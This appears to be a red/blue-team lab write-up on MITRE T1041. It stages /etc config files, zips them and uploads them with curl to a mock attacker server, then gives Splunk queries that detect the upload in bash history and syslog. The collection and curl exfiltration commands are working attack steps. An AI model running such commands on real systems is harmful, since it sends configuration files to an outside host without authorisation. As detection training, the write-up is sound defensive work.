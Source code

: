 # MITRE T1041 – Exfiltration Over C2 Channel (via curl)

## 📌 Technique ID
- **MITRE ID:** T1041
- **Tactic:** Exfiltration
- **Technique:** Exfiltration Over Command and Control Channel

## 🎯 Objective
Simulate and detect data exfiltration over a C2 channel using `curl` to send sensitive `.conf` files to a mock attacker server (Kali). Detection is performed using `.bash_history` and `syslog` logs ingested in Splunk.

## 🔴 Red Team – Simulated Attack

1. **Data Staging:**
   
   mkdir /tmp/exfil
   find /etc -type f -name "*.conf" -readable -exec cp {} /tmp/exfil/ \; 2>/dev/null
   Compression:


cd /tmp/exfil
zip -r data_loot.zip .
Exfiltration:


curl -X POST -F "file=@data_loot.zip" http://192.168.177.128:8000/upload

## 🟦 Blue Team – Detection in Splunk

✅ Detection 1: curl or wget with file upload flags

index=* ("curl" OR "wget") ("POST" OR "-F" OR "@")
| table _time, host, user, source, message

✅ Detection 2: Suspicious curl in syslog or .bash_history

index=* source="*.bash_history" curl
index=* source="/var/log/syslog" curl

## 🖼️ Screenshots to Capture

curl_exfil_command.png	curl upload command from terminal

bash_history_log.png	Evidence of curl in bash history

splunk_detection.png	Matching Splunk query result

syslog_detection.png	Evidence of exfil in syslog

## ✅ Outcome

The attack simulation and detection demonstrate how data exfiltration over common tools like curl can be monitored and alerted using traditional logs like .bash_history and syslog, enhancing real-world SOC response capabilities.
